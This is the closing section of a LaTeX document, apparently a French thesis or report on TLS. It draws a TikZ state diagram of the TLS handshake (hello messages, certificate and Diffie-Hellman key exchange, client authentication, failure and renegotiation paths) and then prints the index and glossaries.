  \tikzstyle{state} = [draw, very thick, fill=white, rectangle, minimum height=3em, minimum width=7em, node distance=8em, font={\sffamily\bfseries}]
  \tikzstyle{stateEdgePortion} = [black,thick];
  \tikzstyle{authServEdgePortion} = [ForestGreen,thick];
  \tikzstyle{authClientEdgePortion} = [red, thick];
  \tikzstyle{stateEdge} = [stateEdgePortion,->];
  \tikzstyle{authServEdge} = [authServEdgePortion,->];
  \tikzstyle{authClientEdge} = [authClientEdgePortion,->];
  \tikzstyle{edgeLabel} = [pos=0.5, text centered, font={\sffamily\small}];
  \node[state, name=closedStart] {CLOSED};
  \node[state, name=ciphersuitscomp, below of=closedStart] {Ouverture de connexion};
  \node[state, name=authenticationServer, below of=ciphersuitscomp] {Requête pour authentifier le Serveur};
  \node[state, name=authServer, below of=authenticationServer, right of=authenticationServer, xshift=7em] {Serveur Authentifié};
  \node[state, name=anonServer, below of=authenticationServer, left of=authenticationServer, xshift=-7em] {Serveur Anonyme};
  \node[state, name=authenticationClient, below of=authenticationServer, node distance=14em] {Requête pour authentifier le Client};
  \node[state, name=authClient, below of=authenticationClient, right of=authenticationClient, xshift=7em] {Authentification du client};
  \node[state, name=dhClient, below of=authenticationClient, left of=authenticationClient, xshift=-4em, yshift=-7em] {DH du Client};
  \node[state, name=endDHClient, below of=dhClient] {Fin du DH du Client};
  \node[state, name=endClient, below of=endDHClient] {Fin des messages du Client};
  \node[state, name=endServer, below of=endClient, text width=14em] {Fin des messages du Serveur\\Connexion établie};
  \draw ($(closedStart.south) + (-.5em,0)$) 
      edge[stateEdge] node[edgeLabel, xshift=-3em]{\textit{Client\_Hello}} 
      ($(ciphersuitscomp.north) + (-.5em,0)$); 
  \draw ($(ciphersuitscomp.north) + (.5em,0)$) 
      edge[stateEdge] node[edgeLabel, xshift=4em]{\textbf{Handshake\_Failure}} 
      ($(closedStart.south) + (.5em,0)$);
  \draw ($(ciphersuitscomp.south) + (-.5em,0)$) 
      edge[stateEdge] node[edgeLabel, xshift=4em]{\textbf{Server\_Hello}} 
      ($(authenticationServer.north) + (-.5em,0)$);
   \draw ($(authenticationServer.south) + (-1em,0)$) 
      edge[stateEdge, bend left=22.5] node[edgeLabel, xshift=-5em, yshift=1em]{ADH: \textbf{Server\_Key\_Exchange}} node[edgeLabel, xshift=1em, yshift=3em]{\textbf{Non}}
      ($(anonServer.east) + (0,1em)$);
  \draw ($(authenticationServer.south) + (1em,0)$) 
      edge[stateEdge, bend right=22.5] node[edgeLabel, xshift=2em, yshift=1em]{\textbf{Certificate}} node[edgeLabel, xshift=-1em, yshift=3em]{\textbf{Oui}}
      ($(authServer.west) + (0,1em)$);
  \draw ($(authServer.west) + (0,-1em)$) 
      edge[authServEdge, bend right=22.5] node[edgeLabel, xshift=-4em, yshift=1.5em]{DHE: \textbf{Server\_Key\_Exchange}} 
      ($(authenticationClient.north)$);
  \draw ($(authServer.south)$) 
      edge[authServEdge, bend left=22.5, dashed,->] node[edgeLabel, xshift=4em, yshift=-2em]{DH: (Paramètre du certificat)} 
      ($(authenticationClient.east)$);
  \draw ($(authenticationClient.south)$) 
      edge[authServEdge, bend right=22.5] node[edgeLabel, xshift=5em, yshift=1em,text width=5em]{\textbf{Certificate\_Request}\\\textbf{Server\_Hello\_Done}} node[edgeLabel, xshift=-1em, yshift=3em]{\textbf{Oui}}
      ($(authClient.west)$);
  \draw ($(authenticationClient.west)$) 
      edge[authServEdge, bend right=22.5] node[edgeLabel, xshift=4em, yshift=-2em,text width=5em]{\textbf{Server\_Hello\_Done}} node[edgeLabel, xshift=1em, yshift=5em]{\textbf{Non}}
      ($(dhClient.north)$);
   \draw ($(anonServer.south)$) 
      edge[stateEdge, bend left=5] node[edgeLabel, xshift=-5em, yshift=3em]{\textbf{Server\_Hello\_Done}} 
      ($(dhClient.north)$);
  \draw ($(authClient.south)$) 
      edge[authClientEdge, bend left=22.5] node[edgeLabel, xshift=0em, yshift=1.5em]{\textit{Certificate}} 
      ($(dhClient.east)$);
  \coordinate (HF2A) at ($(authClient.east) + (2em,0.5em)$);
  \coordinate (HF2B) at ($(closedStart.north -| authClient.east) + (2em,1em)$);
  \coordinate (HF2C) at ($(closedStart.north) + (0.5em,1em)$);
  \draw ($(authClient.east) + (0em,0.5em)$)  edge[authClientEdgePortion] (HF2A);
  \draw (HF2A) edge[authClientEdgePortion] node[edgeLabel,xshift=1.5em, yshift=-4em, rotate=-90]{\textit{Client\_Key\_Exchange} $\Rightarrow$ \textbf{Handshake\_Failure}} (HF2B);
  \draw (HF2B) edge[authClientEdgePortion] (HF2C);
  \draw (HF2C) edge[authClientEdge] ($(closedStart.north) + (0.5em,0)$);
  \coordinate (HF3A) at ($(authClient.east) + (6em,-0.5em)$);
  \coordinate (HF3B) at ($(closedStart.north -| authClient.east) + (6em,1em)$);
  \coordinate (HF3C) at ($(closedStart.north) + (0.5em,1em)$);
  \draw ($(authClient.east) + (0em,-0.5em)$) edge[authClientEdgePortion] (HF3A);
  \draw (HF3A) edge[authClientEdgePortion] node[edgeLabel,xshift=1.5em, yshift=-4em, rotate=-90]{Invalid \textit{Certificate} $\Rightarrow$ \textbf{Handshake\_Failure}} (HF3B);
  \draw (HF3B) edge[authClientEdgePortion] (HF3C);
  \draw (HF3C) edge[authClientEdge] ($(closedStart.north) + (0.5em,0)$);
  \draw ($(dhClient.south)+ (-1em,0)$) 
      edge[stateEdge] node[edgeLabel, xshift=5em, yshift=0em, text width=5em]{\textit{Client\_Key\_Exchange\\\textcolor{red}{Certificate\_Verify}}} 
      ($(endDHClient.north)+ (-1em,0)$);
  \draw ($(dhClient.south)$) 
      edge[authServEdge]
      ($(endDHClient.north)$);
  \draw ($(dhClient.south)+ (1em,0)$) 
      edge[authClientEdge]
      ($(endDHClient.north)+ (1em,0)$);
  \draw ($(endDHClient.south)+ (-1em,0)$) 
      edge[stateEdge] node[edgeLabel, xshift=5em, yshift=0em, text width=5em]{\textit{Change\_Cipher\_Spec\\Finished}} 
      ($(endClient.north)+ (-1em,0)$);
  \draw ($(endDHClient.south)$) 
      edge[authServEdge]
      ($(endClient.north)$);
  \draw ($(endDHClient.south)+ (1em,0)$) 
      edge[authClientEdge]
      ($(endClient.north)+ (1em,0)$);
  \draw ($(endClient.south)+ (-1em,0)$) 
      edge[stateEdge] node[edgeLabel, xshift=5em, yshift=0em, text width=5em]{\textbf{Change\_Cipher\_Spec\\Finished}} 
      ($(endServer.north)+ (-1em,0)$);
  \draw ($(endClient.south)$) 
      edge[authServEdge]
      ($(endServer.north)$);
  \draw ($(endClient.south)+ (1em,0)$) 
      edge[authClientEdge]
      ($(endServer.north)+ (1em,0)$);
  \coordinate (SIDA) at ($(ciphersuitscomp.west) + (-17em,0)$);
  \coordinate (SIDB) at ($(endClient.west -| ciphersuitscomp.west) + (-17em,1em)$);
  \draw (ciphersuitscomp.west) edge[stateEdgePortion,dashed,-] (SIDA);
  \draw (SIDA) edge[stateEdgePortion, black,dashed,-] node[edgeLabel,xshift=-1.5em, yshift=4em, rotate=90]{\textit{(Client\_Hello.session\_id)}} (SIDB);
  \draw (SIDB) edge[stateEdge,dashed,->] ($(endClient.west) + (0,1em)$);
  \coordinate (HRA) at ($(endServer.west) + (-6.5em,0)$);
  \coordinate (HRB) at ($(closedStart.north -| endServer.west) + (-6.5em,1em)$);
  \coordinate (HRC) at ($(closedStart.north) + (-0.5em,1em)$);
  \draw (endServer.west) edge[stateEdgePortion] (HRA);
  \draw (HRA) edge[stateEdgePortion] node[edgeLabel,xshift=-1.5em, yshift=2em, rotate=90]{\textbf{Hello\_Request}} (HRB);
  \draw (HRB) edge[stateEdgePortion] (HRC);
  \draw (HRC) edge[stateEdge] ($(closedStart.north) + (-0.5em,0)$);

  \begin{pgfonlayer}{background}
    \draw [join=round,black,dotted] ($(endDHClient.east) + (7em, 0em)$) rectangle ($(endDHClient.east) + (28em, -7em)$);
    \coordinate (LEGA) at ($(endDHClient.east) + (13em, -1em)$);
    \coordinate (LEGB) at ($(endDHClient.east) + (13em, -2.5em)$);
    \coordinate (LEGC) at ($(endDHClient.east) + (13em, -4em)$);
    \coordinate (LEGD) at ($(endDHClient.east) + (13em, -5.5em)$);
    \draw (LEGA) node[xshift=5em]{\textit{Paquet du Client}} ;
    \draw (LEGB) node[xshift=4.6em]{\textbf{Paquet du Serveur}} ;
    \draw (LEGC) node[xshift=4.6em]{\textcolor{ForestGreen}{\'Echanges après authentification du serveur}} ;
    \draw (LEGD) node[xshift=4.6em]{\textcolor{red}{\'Echanges après authentification du client}} ;
  \end{pgfonlayer}
\end{tikzpicture}
}


\clearpage
\addcontentsline{toc}{chapter}{Index}
\printindex 
\newpage
\clearpage
\printglossary[type=\acronymtype]
\glossarystyle{altlistgroup}
\printglossary[type=main]
\end{document}
